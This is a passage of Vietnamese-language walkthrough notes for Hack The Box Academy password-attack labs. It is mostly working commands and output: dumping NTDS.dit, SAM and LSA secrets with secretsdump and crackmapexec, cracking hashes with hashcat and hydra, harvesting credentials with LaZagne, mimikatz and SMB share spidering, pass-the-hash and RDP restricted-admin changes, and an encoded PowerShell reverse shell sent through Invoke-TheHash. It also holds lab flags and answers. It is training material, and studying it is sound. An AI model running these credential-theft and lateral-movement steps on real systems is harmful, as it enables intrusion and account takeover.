 0030   29 52 89 14 23 5E C0 A6  FE 2B FC F2 0F CB 13 11   )R..#^...+......
NL$KM:5f03db6afd543d01475909c8f791ce72f628b7ad55b45ea69e9d7e3ade1ea0bf93fb4ce54d8eab2c0b447f3af1584c1a29528914235ec0a6fe2bfcf20fcb1311
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 086ab260718494c3a503c47d430a92a4
[*] Reading and decrypting hashes from NTDS.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7796ee39fd3a9c3a1844556115ae1a54:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
ILF-DC01$:1000:aad3b435b51404eeaad3b435b51404ee:8af61f67a96ac6fb352f192b1cfc6b56:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:cfa046b90861561034285ea9c3b4af2f:::
ILF.local\jmarston:1103:aad3b435b51404eeaad3b435b51404ee:2b391dfc6690cc38547d74b8bd8a5b49:::
ILF.local\cjohnson:1104:aad3b435b51404eeaad3b435b51404ee:5fd4475a10d66f33b05e7c2f72712f93:::
ILF.local\jstapleton:1108:aad3b435b51404eeaad3b435b51404ee:92fd67fd2f49d0e83744aa82363f021b:::
ILF.local\gwaffle:1109:aad3b435b51404eeaad3b435b51404ee:07a0bf5de73a24cb8ca079c1dcd24c13:::
LAPTOP01$:1111:aad3b435b51404eeaad3b435b51404ee:be2abbcd5d72030f26740fb531f1d7c4:::
[*] Kerberos keys from NTDS.dit 
Administrator:aes256-cts-hmac-sha1-96:a2bfeccd55aca0e53f893d1ae43abcdf0d6aa5793cd5d2dbe8c6f577cbbe5a35
Administrator:aes128-cts-hmac-sha1-96:84a147160d42613b0ffe0bd060dbca9c
Administrator:des-cbc-md5:3ec8540110d3e058
ILF-DC01$:aes256-cts-hmac-sha1-96:50d1401419bf8fe68aa149e67f327af59fc923653e3ebe212345883a3b92bb2d
ILF-DC01$:aes128-cts-hmac-sha1-96:f16761d510325e2640b31a9ef9e5350a
ILF-DC01$:des-cbc-md5:f20b1ae0e0f2986b
krbtgt:aes256-cts-hmac-sha1-96:4c3efde4c6ef4005e67a3d9aa09d91d9325518443e54a914f83839a2ed7d02ec
krbtgt:aes128-cts-hmac-sha1-96:69ef62ae6a467bca3e3aa07495b81a64
krbtgt:des-cbc-md5:6e1fa8f219daa82c
ILF.local\jmarston:aes256-cts-hmac-sha1-96:9e7d0ec693ff443437aae379ee87d07ed42d6745a4eab784eaa54ceff2fa2649
ILF.local\jmarston:aes128-cts-hmac-sha1-96:b106cf089340b2e610710d6a89ea890d
ILF.local\jmarston:des-cbc-md5:5e5dc24ff73ee9a8
ILF.local\cjohnson:aes256-cts-hmac-sha1-96:2d332798b58ed1a9611e2ecabb338aec01fab4519b08ce4986ebc405c851d7fc
ILF.local\cjohnson:aes128-cts-hmac-sha1-96:cf66ade75cbc1c17d55d6abae64a77f3
ILF.local\cjohnson:des-cbc-md5:83f8cbe3386d858a
ILF.local\jstapleton:aes256-cts-hmac-sha1-96:bf06c080a3e7975799a9f58b606fef8a4b2c4f574cb9e7e99c0686971850ca64
ILF.local\jstapleton:aes128-cts-hmac-sha1-96:828fbbc322f3929f1fe164bcae50e310
ILF.local\jstapleton:des-cbc-md5:d057ad893d8a6b2f
ILF.local\gwaffle:aes256-cts-hmac-sha1-96:b3a7e81c743c8457ba643a5c63058af6f8d21f2a71c793ff7058e73f82ff45a0
ILF.local\gwaffle:aes128-cts-hmac-sha1-96:76943b80314d6f172ed66bb7a4ed72ad
ILF.local\gwaffle:des-cbc-md5:8668a2d073764a3e
LAPTOP01$:aes256-cts-hmac-sha1-96:e0b95703b96705adaf6b5ddadb1f9896729e75683e99f55a6c7bf31e32c3a6d0
LAPTOP01$:aes128-cts-hmac-sha1-96:f42fef661ee76d7e5d2062443e569d5d
LAPTOP01$:des-cbc-md5:26ade5ce709bb5e5
[*] Cleaning up... 

```

Cách 2: Dump remote bằng cme:


+ 1  Capture the NTDS.dit file and dump the hashes. Use the techniques taught in this section to crack Jennifer Stapleton's password. Submit her clear-text password as the answer. (Format: Case-Sensitive)

Trích xuất dump ta có:

```zsh
❯ echo 'jstapleton:1108:aad3b435b51404eeaad3b435b51404ee:92fd67fd2f49d0e83744aa82363f021b:::' | cut -d ':' -f1,4
jstapleton:92fd67fd2f49d0e83744aa82363f021b

❯ hashcat -m 1000 '92fd67fd2f49d0e83744aa82363f021b' /usr/share/wordlists/rockyou.txt --show
92fd67fd2f49d0e83744aa82363f021b:Winter2008
```

# Credential Hunting in Windows

 RDP to 10.129.121.222 (ACADEMY-PWATTACKS-WIN10CHUNTING) with user "Bob" and password "HTB_@cademy_stdnt!"

+ 0  What password does Bob use to connect to the Switches via SSH? (Format: Case-Sensitive)


 RDP to 10.129.121.222 (ACADEMY-PWATTACKS-WIN10CHUNTING) with user "Bob" and password "HTB_@cademy_stdnt!"

+ 0  What is the GitLab access code Bob uses? (Format: Case-Sensitive)


 RDP to 10.129.121.222 (ACADEMY-PWATTACKS-WIN10CHUNTING) with user "Bob" and password "HTB_@cademy_stdnt!"

+ 0  What credentials does Bob use with WinSCP to connect to the file server? (Format: username:password, Case-Sensitive)


 RDP to 10.129.121.222 (ACADEMY-PWATTACKS-WIN10CHUNTING) with user "Bob" and password "HTB_@cademy_stdnt!"

+ 1  What is the default password of every newly created Inlanefreight Domain user account? (Format: Case-Sensitive)
Có một thư mục Automation Scripts trong ổ C, check nó:


 RDP to 10.129.121.222 (ACADEMY-PWATTACKS-WIN10CHUNTING) with user "Bob" and password "HTB_@cademy_stdnt!"

+ 1  What are the credentials to access the Edge-Router? (Format: username:password, Case-Sensitive)

Check nốt thư mục còn lại, Ansible Script:



# Linux Authentication Process

#### Questions

+ 0  Download the attached ZIP file (linux-authentication-process.zip), and use single crack mode to find martin's password. What is it?
```zsh
unshadow passwd shadow > unshadowed
```

```zsh
hashcat -m 1800 -a 0 $(cat unshadowed| grep martin | cut -d ':' -f2) /usr/share/wordlists/rockyou.txt -o martin_cracked
```


 [linux-authentication-process.zip](https://academy.hackthebox.com/storage/modules/147/linux-authentication-process.zip)

+ 0  Use a wordlist attack to find sarah's password. What is it?

```zsh
hashcat -m 1800 $(cat unshadowed| grep sarah | cut -d ':' -f2) /usr/share/wordlists/rockyou.txt -o martin_cracked
```


# Credential Hunting in Linux

+ 0  Examine the target and find out the password of the user Will. Then, submit the password as the answer.


Tiến hành bruteforce user `kira` để có quyền vào hệ thống.
Tạo wordlist:
```zsh
❯ echo 'LoveYou1' |  hashcat --force -r custom.rule --stdout > kira_password.list
```


```zsh
❯ hydra -l kira -P kira_password.list ftp://10.129.160.53 -I -t 64
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-04-24 03:53:39
[DATA] max 64 tasks per 1 server, overall 64 tasks, 925 login tries (l:1/p:925), ~15 tries per task
[DATA] attacking ftp://10.129.160.53:21/
[21][ftp] host: 10.129.160.53   login: kira   password: L0vey0u1!
[21][ftp] host: 10.129.160.53   login: kira   password: L0vey0u1!
1 of 1 target successfully completed, 2 valid passwords found
```

Nhiệm vụ là tìm pass của user `will`

```zsh
kira@nix01:~$ cat /etc/passwd | grep -v "nologin"
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
pollinate:x:110:1::/var/cache/pollinate:/bin/false
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
kira:x:1000:1000::/home/kira:/bin/bash
will:x:1001:1001::/home/will:/bin/bash
sam:x:1002:1003::/home/sam:/bin/bash
gdm:x:123:133:Gnome Display Manager:/var/lib/gdm3:/bin/false
```

Đẩy cả folder của thằng LaZagne Linux sang cho nó đủ thư viện, chạy luôn:

```zsh
kira@nix01:~$ cd Linux/
kira@nix01:~/Linux$ ls
hook-sys.py  lazagne  laZagne.py  lazagne.spec
kira@nix01:~/Linux$ python3 laZagne.py 
```

```zsh
[+] Password found !!!                                                                                                                                                                       
URL: https://dev.inlanefreight.com                                                                                                                                                           
Login: will@inlanefreight.htb
Password: TUqr7QfLTLhruhVbCP

```

Hoặc mò trong này:


# Credential Hunting in Network Traffic

#### Questions

+ 0  The packet capture contains cleartext credit card information. What is the number that was transmitted?

 [credential-hunting-in-network-traffic.zip](https://academy.hackthebox.com/storage/modules/147/credential-hunting-in-network-traffic.zip)


+ 0  What is the SNMPv2 community string that was used?


+ 0  What is the password of the user who logged into FTP?


+ 1  What file did the user download over FTP?


# Credential Hunting in Network Shares
#### Questions

 RDP to  with user "mendres" and password "Inlanefreight2025!"

+ 0  One of the shares mendres has access to contains valid credentials of another domain user. What is their password?

```powershell
Import-Module .\PowerHuntShares.psm1
Invoke-HuntSMBShares -Threads 100 -OutputDirectory C:\Users\Public
```

Chúng ta chạy PowerHuntShares và xem report, đưa ra chiến thuật hợp lý để spider với nxc:


```zsh
nxc smb 10.129.147.131 -u mendres -p 'Inlanefreight2025!' --spider HR --content --pattern "passw"
```

Tiếp theo lấy file khả nghi có chuỗi password về

```zsh
nxc smb 10.129.147.131 -u mendres -p 'Inlanefreight2025!' --share 'HR' --get-file "\Public\Onboarding_Docs_485.docx" ~/Downloads/Onboarding_Docs_485.docx
```

Chúng ta có thể tải sang máy host windows để xem hoặc dùng string hoặc tải lên một trang web xem .docx online hoặc dùng bộ libre office nếu bạn có sẵn :v


```cred
NOTE:user=hr_backup
password=HRrocks2025!
```

Có vẻ như thông tin này không dùng được, tuy vậy điều kì diệu đã xuất hiện khi tôi tìm thấy file này trong IT/Tools


+ 0  As this user, search through the additional shares they have access to and identify the password of a domain administrator. What is it?

Chúng ta sẽ lấy phiên với thông tin đăng nhập mới:
```zsh
xfreerdp3 /v:$ip /u:jbader /p:'ILovePower333###'
```

Liệt kê Shares với smb map, người dùng này có thể truy cập vào Finance và Sales, Marketing và IT\Admin


Chúng ta sẽ kiểm tra với câu lệnh truy vấn đơn giản cho từng thư mục mà chúng ta có đặc quyền

```cmd
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```

Tôi tìm ra rất nhiều mật khẩu và tổng hợp lại, tuy nhiên khi tôi đọc dòng này, hầu hết chúng là giả.

```
Summer2023!
Templates#1
SecureDocs99
Form@1234
docAccess!@
HRrocks2025!
ILovePower333###
Brand2025!
qwerty#2023
FinanceRules99
password1234
FinSecure!
Summer2024!
Welcome2022!
Draft456!
```


Trong thư mục HR, khi truy vấn với lệnh trên bạn sẽ thấy:


Một trong số chúng chứa thứ ta cần tìm:


# Passwd, Shadow & Opasswd

+ 0  Examine the target using the credentials from the user Will and find out the password of the "root" user. Then, submit the password as the answer.

`will:TUqr7QfLTLhruhVbCP`

```zsh
will@nix01:~$ ls -l /etc/shadow
-rw-r----- 1 root shadow 1724 Feb  9  2022 /etc/shadow
will@nix01:~$ ls -l /etc/passwd
-rw-r--r-- 1 root root 2619 Feb  9  2022 /etc/passwd
```

```zsh
will@nix01:~$ ls -la
total 36
drwxr-xr-x 5 will will 4096 Apr 24 09:39 .
drwxr-xr-x 5 root root 4096 Feb  9  2022 ..
drwxrwxr-x 2 will will 4096 Feb  9  2022 .backups
-rw------- 1 will will   81 Feb  9  2022 .bash_history
-rw-r--r-- 1 will will  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 will will 3771 Feb 25  2020 .bashrc
drwx------ 2 will will 4096 Apr 24 09:39 .cache
drwx------ 3 will will 4096 Apr 24 09:39 .config
-rw-r--r-- 1 will will  807 Feb 25  2020 .profile
will@nix01:~$ cd .backups/
will@nix01:~/.backups$ ls -la
total 16
drwxrwxr-x 2 will will 4096 Feb  9  2022 .
drwxr-xr-x 5 will will 4096 Apr 24 09:39 ..
-rw-r--r-- 1 will will 2619 Feb  9  2022 passwd.bak
-rw-r----- 1 will will 1724 Feb  9  2022 shadow.bak
```

Trên máy VM:

```zsh
❯ wget http://10.129.160.53:8000/shadow.bak
❯ wget http://10.129.160.53:8000/passwd.bak
❯ unshadow passwd.bak shadow.bak > unshadow_hashes.txt
❯ cat unshadow_hashes.txt | grep root | cut -d ':' -f1,2 > root_hash.txt
❯ hashcat -m 1800 -a 0 root_hash.txt mut_password.list --user
❯ hashcat -m 1800 -a 0 root_hash.txt mut_password.list --user --show
root:$6$XePuRx/4eO0WuuPS$a0t5vIuIrBDFx1LyxAozOu.cVaww01u.6dSvct8AYVVI6ClJmY8ZZuPDP7IoXRJhYz4U8.DJUlilUw2EfqhXg.:J0rd@n5
```

# Pass the Hash (PtH)

 Authenticate to 10.129.204.23 (ACADEMY-PWATTACKS-LM-MS01) with user "Administrator" and password "30B3783CE2ABF1AF70F77D0660CF3453"

+ 0  Access the target machine using any Pass-the-Hash tool. Submit the contents of the file located at C:\pth.txt.

```zsh
❯ crackmapexec smb 10.129.204.23 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x 'type C:\pth.txt'
SMB         10.129.204.23   445    MS01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:MS01) (domain:.) (signing:False) (SMBv1:False)
SMB         10.129.204.23   445    MS01             [+] .\Administrator:30B3783CE2ABF1AF70F77D0660CF3453 (Pwn3d!)
SMB         10.129.204.23   445    MS01             [+] Executed command 
SMB         10.129.204.23   445    MS01             G3t_4CCE$$_V1@_PTH
```


+ 0  Try to connect via RDP using the Administrator hash. What is the name of the registry value that must be set to 0 for PTH over RDP to work? Change the registry key value and connect using the hash with RDP. Submit the name of the registry value name as the answer.

Thử kết nối đến rdp nhưng failed:


Enable Restricted Admin Mode to Allow PtH

```zsh
❯ crackmapexec smb 10.129.204.23 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'
SMB         10.129.204.23   445    MS01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:MS01) (domain:.) (signing:False) (SMBv1:False)
SMB         10.129.204.23   445    MS01             [+] .\Administrator:30B3783CE2ABF1AF70F77D0660CF3453 (Pwn3d!)
SMB         10.129.204.23   445    MS01             [+] Executed command 
SMB         10.129.204.23   445    MS01             The operation completed successfully.
```


 RDP to 10.129.204.23 (ACADEMY-PWATTACKS-LM-MS01) with user "Administrator" and password "30B3783CE2ABF1AF70F77D0660CF3453"

+ 0  Connect via RDP and use Mimikatz located in c:\tools to extract the hashes presented in the current session. What is the NTLM/RC4 hash of David's account?

Nói chung bài viết không đề cập đến việc dùng mimikatz để dump hash. Chúng ta có thể sử dụng như sau nếu có quyền admin:

```powershell
C:\tools > mimikatz.exe
privilege::debug
token::elevate
sekurlsa::logonpasswords
```

hoặc

```powershell
mimikatz.exe "privilege::debug" “token::elevate” "sekurlsa::logonpasswords" exit > hashes.txt
```


```powershell
Authentication Id : 0 ; 289519 (00000000:00046aef)
Session           : Service from 0
User Name         : david
Domain            : INLANEFREIGHT
Logon Server      : DC01
Logon Time        : 4/24/2025 5:34:48 AM
SID               : S-1-5-21-3325992272-2815718403-617452758-1107
        msv :
         [00000003] Primary
         * Username : david
         * Domain   : INLANEFREIGHT
         * NTLM     : c39f2beb3d2ec06a62cb887fb391dee0
         * SHA1     : 2277c28035275149d01a8de530cc13b74f59edfb
         * DPAPI    : eaa6db50c1544304014d858928d9694f
        tspkg :
        wdigest :
         * Username : david
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : david
         * Domain   : INLANEFREIGHT.HTB
         * Password : (null)
        ssp :
        credman :
```

Để thuận tiện hơn, chúng ta dùng cme hoặc impacket-secretdump để dump cho nhanh:

```zsh
❯ crackmapexec smb 10.129.204.23 -u Administrator -H '30B3783CE2ABF1AF70F77D0660CF3453' --sam --local-auth
SMB         10.129.204.23   445    MS01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:MS01) (domain:MS01) (signing:False) (SMBv1:False)
SMB         10.129.204.23   445    MS01             [+] MS01\Administrator:30B3783CE2ABF1AF70F77D0660CF3453 (Pwn3d!)
SMB         10.129.204.23   445    MS01             [+] Dumping SAM hashes
SMB         10.129.204.23   445    MS01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:30b3783ce2abf1af70f77d0660cf3453:::
SMB         10.129.204.23   445    MS01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.204.23   445    MS01             DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.204.23   445    MS01             WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:4b4ba140ac0767077aee1958e7f78070:::
SMB         10.129.204.23   445    MS01             [+] Added 4 SAM hashes to the database

❯ crackmapexec smb 10.129.204.23 --local-auth -u Administrator -H :30B3783CE2ABF1AF70F77D0660CF3453 --lsa
SMB         10.129.204.23   445    MS01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:MS01) (domain:MS01) (signing:False) (SMBv1:False)
SMB         10.129.204.23   445    MS01             [+] MS01\Administrator:30B3783CE2ABF1AF70F77D0660CF3453 (Pwn3d!)
SMB         10.129.204.23   445    MS01             [+] Dumping LSA secrets
SMB         10.129.204.23   445    MS01             INLANEFREIGHT.HTB/julio:$DCC2$10240#julio#c2139497f24725b345aa1e23352481f3: (2025-04-24 10:34:48)
SMB         10.129.204.23   445    MS01             INLANEFREIGHT.HTB/david:$DCC2$10240#david#a8338587a1c6ee53624372572e39b93f: (2025-04-24 10:34:48)
SMB         10.129.204.23   445    MS01             INLANEFREIGHT.HTB/john:$DCC2$10240#john#fbdeac2c1d121818f75796cedd0caf0a: (2025-04-24 10:34:48)
SMB         10.129.204.23   445    MS01             INLANEFREIGHT\MS01$:aes256-cts-hmac-sha1-96:e5f017bbd6ce06cea5edb059496b13a8ee50ad094a0bcfaaad244a213b8d4e70
SMB         10.129.204.23   445    MS01             INLANEFREIGHT\MS01$:aes128-cts-hmac-sha1-96:7c18d5d61065f12d1534b911a56e8dda
SMB         10.129.204.23   445    MS01             INLANEFREIGHT\MS01$:des-cbc-md5:0b2f80e08f1526cb
SMB         10.129.204.23   445    MS01             INLANEFREIGHT\MS01$:plain_password_hex:64c15137404fdb8a425b48e184505c4aaf09d1a9db7938e52c2876d216eb55661d450a980e4a81a02a56b138b0bf4fbd400491efe0b7e71cd2edfa60c555ea9c729b897b5051487a40778a81f1a32f43fd0b6469a786e4cdb0bcabde21b98c9b5ba65a5052b77941da69a3182295322de3e4859990cc608b06e6568e94015d1a90bd1056a330a6eecdbd24a0ea5e924370f85b8012f3fde3d9213331fb75cff6228a52049f88bf8e6b5fd28b3f76a085a220420a6de68c0eaf72868943c518c065fe5cb5283b708b989ede589ca545741a580e903897a8267239a8a515307a00ba4edec331937dd8b3e8cc2bd1d1a283
SMB         10.129.204.23   445    MS01             INLANEFREIGHT\MS01$:aad3b435b51404eeaad3b435b51404ee:c2a4229c0c383e3b95e24b165c90b6cd:::
SMB         10.129.204.23   445    MS01             dpapi_machinekey:0x78f7020d08fa61b3b77b24130b1ecd58f53dd338
dpapi_userkey:0x4c0d8465c338406d54a1ae09a56223e867907f39
SMB         10.129.204.23   445    MS01             NL$KM:a2529d310bb71c7545d64b76412dd321c65cdd0424d307ffca5cf4e5a03894149164fac791d20e027ad65253b4f4a96f58ca7600dd39017dc5f78f4bab1edc63
SMB         10.129.204.23   445    MS01             INLANEFREIGHT\julio:Password1
SMB         10.129.204.23   445    MS01             INLANEFREIGHT\david:Password2
SMB         10.129.204.23   445    MS01             INLANEFREIGHT\john:Password3
SMB         10.129.204.23   445    MS01             [+] Dumped 13 LSA secrets to /home/kali/.cme/logs/MS01_10.129.204.23_2025-04-24_082528.secrets and /home/kali/.cme/logs/MS01_10.129.204.23_2025-04-24_082528.cached

```

```zsh
❯ impacket-secretsdump -hashes :30b3783ce2abf1af70f77d0660cf3453 Administrator@10.129.204.23
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x29fc3535fc09fb37d22dc9f3339f6875
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:30b3783ce2abf1af70f77d0660cf3453:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:4b4ba140ac0767077aee1958e7f78070:::
[*] Dumping cached domain logon information (domain/username:hash)
INLANEFREIGHT.HTB/julio:$DCC2$10240#julio#c2139497f24725b345aa1e23352481f3: (2025-04-24 10:34:48)
INLANEFREIGHT.HTB/david:$DCC2$10240#david#a8338587a1c6ee53624372572e39b93f: (2025-04-24 10:34:48)
INLANEFREIGHT.HTB/john:$DCC2$10240#john#fbdeac2c1d121818f75796cedd0caf0a: (2025-04-24 10:34:48)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
INLANEFREIGHT\MS01$:aes256-cts-hmac-sha1-96:e5f017bbd6ce06cea5edb059496b13a8ee50ad094a0bcfaaad244a213b8d4e70
INLANEFREIGHT\MS01$:aes128-cts-hmac-sha1-96:7c18d5d61065f12d1534b911a56e8dda
INLANEFREIGHT\MS01$:des-cbc-md5:0b2f80e08f1526cb
INLANEFREIGHT\MS01$:plain_password_hex:64c15137404fdb8a425b48e184505c4aaf09d1a9db7938e52c2876d216eb55661d450a980e4a81a02a56b138b0bf4fbd400491efe0b7e71cd2edfa60c555ea9c729b897b5051487a40778a81f1a32f43fd0b6469a786e4cdb0bcabde21b98c9b5ba65a5052b77941da69a3182295322de3e4859990cc608b06e6568e94015d1a90bd1056a330a6eecdbd24a0ea5e924370f85b8012f3fde3d9213331fb75cff6228a52049f88bf8e6b5fd28b3f76a085a220420a6de68c0eaf72868943c518c065fe5cb5283b708b989ede589ca545741a580e903897a8267239a8a515307a00ba4edec331937dd8b3e8cc2bd1d1a283
INLANEFREIGHT\MS01$:aad3b435b51404eeaad3b435b51404ee:c2a4229c0c383e3b95e24b165c90b6cd:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x78f7020d08fa61b3b77b24130b1ecd58f53dd338
dpapi_userkey:0x4c0d8465c338406d54a1ae09a56223e867907f39
[*] NL$KM 
 0000   A2 52 9D 31 0B B7 1C 75  45 D6 4B 76 41 2D D3 21   .R.1...uE.KvA-.!
 0010   C6 5C DD 04 24 D3 07 FF  CA 5C F4 E5 A0 38 94 14   .\..$....\...8..
 0020   91 64 FA C7 91 D2 0E 02  7A D6 52 53 B4 F4 A9 6F   .d......z.RS...o
 0030   58 CA 76 00 DD 39 01 7D  C5 F7 8F 4B AB 1E DC 63   X.v..9.}...K...c
NL$KM:a2529d310bb71c7545d64b76412dd321c65cdd0424d307ffca5cf4e5a03894149164fac791d20e027ad65253b4f4a96f58ca7600dd39017dc5f78f4bab1edc63
[*] _SC_ALG 
INLANEFREIGHT\julio:Password1
[*] _SC_SNMPTRAP 
INLANEFREIGHT\david:Password2
[*] _SC_vds 
INLANEFREIGHT\john:Password3
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
```


+ 0  Using David's hash, perform a Pass the Hash attack to connect to the shared folder \\DC01\david and read the file david.txt.

Dùng mimikatz thực hiện PTH rồi đọc nội dung từ DC01/david/david.txt
```powershell
mimikatz.exe privilege::debug "sekurlsa::pth /user:david /ntlm:c39f2beb3d2ec06a62cb887fb391dee0 /domain:inlanefreight.htb /run:cmd.exe" exit
```


+ 0  Using Julio's hash, perform a Pass the Hash attack to connect to the shared folder \\DC01\julio and read the file julio.txt.

```powershell
Authentication Id : 0 ; 284653 (00000000:000457ed)
Session           : Service from 0
User Name         : julio
Domain            : INLANEFREIGHT
Logon Server      : DC01
Logon Time        : 4/24/2025 5:34:48 AM
SID               : S-1-5-21-3325992272-2815718403-617452758-1106
        msv :
         [00000003] Primary
         * Username : julio
         * Domain   : INLANEFREIGHT
         * NTLM     : 64f12cddaa88057e06a81b54e73b949b
         * SHA1     : cba4e545b7ec918129725154b29f055e4cd5aea8
         * DPAPI    : 634db497baef212b777909a4ccaaf700
        tspkg :
        wdigest :
         * Username : julio
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : julio
         * Domain   : INLANEFREIGHT.HTB
         * Password : (null)
        ssp :
        credman :
```

Dùng mimikatz thực hiện PTH rồi đọc nội dung từ DC01/julio/julio.txt
```powershell
mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /ntlm:64f12cddaa88057e06a81b54e73b949b /domain:inlanefreight.htb /run:cmd.exe" exit
```

+ 0  Using Julio's hash, perform a Pass the Hash attack, launch a PowerShell console and import Invoke-TheHash to create a reverse shell to the machine you are connected via RDP (the target machine, DC01, can only connect to MS01). Use the tool nc.exe located in c:\tools to listen for the reverse shell. Once connected to the DC01, read the flag in C:\julio\flag.txt.


```powershell
PS c:\tools\Invoke-TheHash> Import-Module .\Invoke-TheHash.psd1
Invoke-WMIExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA3ADIALgAxADYALgAxAC4ANQAiACwANAA0ADQANAApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA="
```


#### Optional Exercises

Challenge your understanding of the Module content and answer the optional question(s) below. These are considered supplementary content and are not required to complete the Module. You can reveal the answer at any time to check your work.

Target(s): 10.129.204.23 (ACADEMY-PWATTACKS-LM-MS01)   

Life Left: 156 Terminate 

Optional: John is a member of Remote Management Users for MS01. Try to connect to MS01 using john's account hash with impacket. What's the result? What happen if you use evil-winrm?. Mark DONE when finish.

```powershell
Authentication Id : 0 ; 287152 (00000000:000461b0)
Session           : Service from 0
User Name         : john
Domain            : INLANEFREIGHT
Logon Server      : DC01
Logon Time        : 4/24/2025 5:34:48 AM
SID               : S-1-5-21-3325992272-2815718403-617452758-1108
        msv :
         [00000003] Primary
         * Username : john
         * Domain   : INLANEFREIGHT
         * NTLM     : c4b0e1b10c7ce2c4723b4e2407ef81a2
         * SHA1     : 31f8f4dfcb16205363b35055ebe92a75f0a19ce3
         * DPAPI    : 2e54e60846c83d96cf8d9523b5c0df61
        tspkg :
        wdigest :
         * Username : john
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : john
         * Domain   : INLANEFREIGHT.HTB
         * Password : (null)
        ssp :
        credman :
```

```zsh
❯ evil-winrm -i 10.129.148.231 -u john -H c4b0e1b10c7ce2c4723b4e2407ef81a2
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\john\Documents> 
```

```zsh
